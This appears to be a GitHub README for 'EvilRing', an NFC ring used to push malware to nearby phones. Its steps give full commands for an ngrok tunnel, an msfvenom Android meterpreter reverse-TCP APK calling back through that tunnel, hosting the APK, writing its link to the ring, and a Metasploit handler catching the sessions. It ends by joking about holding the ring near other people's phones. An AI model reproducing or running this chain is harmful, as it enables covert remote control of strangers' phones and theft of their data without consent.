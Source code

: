 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`

`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`

`chmod +x ngrok`

`sudo mv ngrok /usr/local/bin/ngrok`

`rm ngrok-v3-stable-linux-amd64.tgz`

`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`


2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended -

Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`

`ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole`

(inside msfconsole)

`use exploit/multi/handler`

`set payload android/meterpreter/reverse_tcp`

`set LHOST 0.0.0.0`

`set LPORT 4242`

`set ExitOnSession false'

'exploit -j'
  
7.  (Dont) go an hold onto some phones!
